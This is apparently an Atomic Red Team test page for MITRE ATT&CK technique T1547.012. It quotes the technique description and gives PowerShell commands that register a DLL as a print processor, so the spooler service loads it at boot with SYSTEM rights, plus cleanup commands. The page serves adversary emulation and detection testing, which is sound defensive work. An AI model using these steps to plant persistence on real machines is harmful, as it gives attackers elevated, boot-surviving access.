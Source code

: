 # T1547.012 - Boot or Logon Autostart Execution: Print Processors
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/012)
<blockquote>Adversaries may abuse print processors to run malicious DLLs during system boot for persistence and/or privilege escalation. Print processors are DLLs that are loaded by the print spooler service, spoolsv.exe, during boot. 

Adversaries may abuse the print spooler service by adding print processors that load malicious DLLs at startup. A print processor can be installed through the <code>AddPrintProcessor</code> API call with an account that has <code>SeLoadDriverPrivilege</code> enabled. Alternatively, a print processor can be registered to the print spooler service by adding the <code>HKLM\SYSTEM\\[CurrentControlSet or ControlSet001]\Control\Print\Environments\\[Windows architecture: e.g., Windows x64]\Print Processors\\[user defined]\Driver</code> Registry key that points to the DLL. For the print processor to be correctly installed, it must be located in the system print-processor directory that can be found with the <code>GetPrintProcessorDirectory</code> API call.(Citation: Microsoft AddPrintProcessor May 2018) After the print processors are installed, the print spooler service, which starts during boot, must be restarted in order for them to run.(Citation: ESET PipeMon May 2020) The print spooler service runs under SYSTEM level permissions, therefore print processors installed by an adversary may run under elevated privileges.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Print Processors](#atomic-test-1---print-processors)


<br/>

## Atomic Test #1 - Print Processors
Establishes persistence by creating a new print processor registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors.
The new print processor will point to a DLL which will be loaded by the spooler service after a reboot. The DLL will then create the file AtomicTest.txt in C:\Users\Public\ as validation that the test is successful.

Note: The test assumes a x64 Windows operating system.

The payload source code is based on a blog post by stmxcsr: [https://stmxcsr.com/persistence/print-processor.html](https://stmxcsr.com/persistence/print-processor.html)

**Supported Platforms:** Windows


**auto_generated_guid:** f7d38f47-c61b-47cc-a59d-fc0368f47ed0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| restart | set to 1 if you want the computer to reboot as part of the test | integer | 0|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if( $(get-service -Name spooler).StartType -eq "Disabled") {Set-Service -Name "spooler" -StartupType Automatic}
net stop spooler
Copy-Item $PathToAtomicsFolder\T1547.012\bin\AtomicTest.dll C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" /v "Driver" /d "AtomicTest.dll" /t REG_SZ /f
net start spooler
if(#{restart}){
  Restart-Computer
}
```

#### Cleanup Commands:
```powershell
net stop spooler
rm -force C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll -ErrorAction SilentlyContinue
rm -force C:\Users\Public\AtomicTest.txt -ErrorAction SilentlyContinue
remove-item "HKLM:\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" -Force -ErrorAction SilentlyContinue
net start spooler
```





<br/>
